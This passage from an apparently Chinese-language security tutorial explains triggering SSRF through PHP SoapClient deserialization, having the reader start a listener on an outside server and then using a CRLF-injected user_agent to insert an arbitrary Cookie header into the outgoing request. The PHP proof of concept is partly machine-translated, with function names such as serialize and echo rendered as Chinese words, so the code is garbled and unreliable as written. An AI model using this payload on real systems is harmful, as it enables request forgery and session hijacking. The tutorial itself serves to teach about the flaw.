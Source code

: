   
---|---  
  
`  
`

`首先在47.xxx.xxx.72上面起个监听：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084245.png)`

`然后执行上述代码，如下图所示成功触发SSRF，47.xxx.xxx.72上面收到了请求信息：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084246.png)`

`但是，由于它采用 HTTP/HTTPS 协议，所以用处不是很好。而如果这里 HTTP 隐匿还存在 CRLF 漏洞，但我们则可以通过
SSRF+CRLF，插入任意的 HTTP 头。`

`如下测试代码，我们在HTTP头中插入一个cookie：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8  
    

|

    
    
      
    $target = 'http://47.xxx.xxx.72:2333/' ;   
    $a = new SoapClient( null , array ( 'location' => $target , 'user_agent' => "WHOAMI\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4" , 'uri' => 'test' ));   
    $b = 序列化( $a );   
    回声 $b ;   
    $c = 反序列化( $b );   
    $c -> a();    // 随便调用对象中不存在的方法,触发__call方法进行ssrf   
    ?>  
      
  
---|---  
  
`  
`
